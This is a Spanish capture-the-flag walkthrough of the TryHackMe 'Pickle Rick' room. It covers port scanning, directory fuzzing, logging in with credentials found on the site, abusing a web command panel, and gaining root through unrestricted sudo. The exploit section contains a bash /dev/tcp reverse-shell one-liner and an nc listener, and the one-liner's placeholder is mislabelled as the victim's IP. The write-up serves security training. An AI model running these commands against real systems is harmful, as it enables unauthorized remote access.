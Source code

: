# Pickle Rick

[Pickle Rick](https://tryhackme.com/r/room/picklerick) es un nivel facil de la plataforma TryHackMe de nivel fácil. En esta máquina se tocan temas de WebHacking.

## Reconocimiento <a href="#reconocimiento" id="reconocimiento"></a>

Primero hacemos un escaneo de puertos con **Nmap**.

```bash
nmap -p- --open --min-rate 5000 -n -Pn -vvv 10.10.147.169 -oN escaneo 
```

* **-p-**: Indica que escanee todos los puertos , desde el 1 hasta el 65535. Sin este parámetro solo se escanea los 1000 puertos más comunes.
* **–open**: Solo escanear puertos abiertos.
* **-sS**: **SYN Scan**, también conocido como _half-open scan_, este no completa la conexión con el destino, esto hace el escaneo un poco más rápido y difícil de detectar.
* **-sC**: Activa la ejecución de scripts de predeterminados Nmap Scripting Engine (NSE).
* **-sV**: Encuentra la versión de servicio que corre en cada puerto.
* **–min-rate**: Fija la cantidad mínima de paquetes para enviar por segundo.
* **-n**: No resolución DNS.
* **-Pn**: **Null Ping**. Se usa por si el servidor esta bloqueando trazas **ICMP**.
* **-vvv**: Triple verbose. Hace que imprima la información mientras la va encontrando. Se puede modificar la cantidad de “v”, el máximo es 3.
* **-oN**: Se utiliza para guardar los resultados del escaneo en un archivo de salida en **formato normal** (normal output). Siempre va acompañado del nombre del archivo donde se guardara.

<figure><img src="../../.gitbook/assets/nmap-scaneo.png" alt=""><figcaption></figcaption></figure>

Este escaneo nos muestra que la máquina tiene abiertos los puertos: **80(HTTP)** y **22(SSH)**.

Entramos a la página y hacemos un poco de exploración.

<figure><img src="../../.gitbook/assets/sitio.png" alt=""><figcaption></figcaption></figure>

La página es muy sencilla por lo que nos brincamos directo a inspeccionar el código fuente, ahí encontramos algo muy interesante **¡un usuario!**

<figure><img src="../../.gitbook/assets/user.png" alt=""><figcaption></figcaption></figure>

Una vez encontrado el usuario exploramos algunas rutas que siempre son de interes como `robots.txt` y `sitemaps.xml`. Al parecer no existe el archivo sitemaps pero dentro de robots encontramos un mensaje un poco extraño que guardaremos para después.

<figure><img src="../../.gitbook/assets/robots.png" alt=""><figcaption></figcaption></figure>

## Fuzzing <a href="#fuzzing" id="fuzzing"></a>

Para esta etapa usaremos gobuster, buscaremos subdominios interesantes y archivos con extensiones **.php**, .html y **.txt**

```bash
gobuster dir -u http://10.10.147.169 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/fuzzing.png" alt=""><figcaption></figcaption></figure>

De los resultados más interesantes es el panel de **login**, en el cual intentamos ingresar utilizando el usuario `R1ckRul3s` y de contraseña `Wubbalubbadubdub`

<figure><img src="../../.gitbook/assets/login.png" alt=""><figcaption></figcaption></figure>

**¡¡Funcionó!!**

Dentro del panel nos encontramos con un panell de comandos. Le ingresamos el comando `whoami` para probar si funciona.

<figure><img src="../../.gitbook/assets/command_panel.png" alt=""><figcaption></figcaption></figure>

## Exploit <a href="#exploit" id="exploit"></a>

Como se ve en la imagen, el comando funcionó. Ahora nos intentamos enviar una reverse shell para trabajar un poco más cómodos desde la terminal.

```bash
bash -c  "sh -i >& /dev/tcp/<IP Victima>/<puerto> 0>&1"
```

No olviden ponerse en escucha para poder recibir la reverse shell:

```bash
sudo nc -lnvp <puerto>
```

<figure><img src="../../.gitbook/assets/reverse_shell.png" alt=""><figcaption></figcaption></figure>

Una vez recibida la shell exploramos archivos y vemos los primeros archivos interesantes en la ruta de `/var/www/html`.

<figure><img src="../../.gitbook/assets/primer-ingrediente.png" alt=""><figcaption></figcaption></figure>

El primer archivo interesante es **Sup3rS3cretPickl3Ingred.txt** en el cual esta el primer ingrediente que estamos buscando. El segundo archivo es **clue.txt** en el cual solo nos indican que tenemos que explorar en los demás archivos.

El primer lugar en el que buscamos es en la ruta del usuario rick **/home/rick/** y justo encontramos lo que buscábamos: **second ingridient**.

<figure><img src="../../.gitbook/assets/segundo-ingrediente.png" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios <a href="#escalada-de-privilegios" id="escalada-de-privilegios"></a>

Para el tercer ingrediente buscaremos en la directorio `/root` pero primero necesitaremos escalar privilegios. Para esto ejecutamos el siguiente comando:

```bash
sudo -l
```

Este comando nos sirve para listar los comandos que el usuario puede ejecutar como **sudo**. Los resultados nos muestran que el usuario `www-data` tiene permisos para ejecutar cualquier comando como sudo.

<figure><img src="../../.gitbook/assets/sudo-l.png" alt=""><figcaption></figcaption></figure>

Podemos escalar privilegios simplemente ejecutando el comando `sudo su`, después vamos a la ruta **/root** en donde se encuentra el tercer ingrediente.

<figure><img src="../../.gitbook/assets/tercer-ingrediente.png" alt=""><figcaption></figcaption></figure>

Y con esto logramos todos los objetivos de la máquina.

¡Saludos!
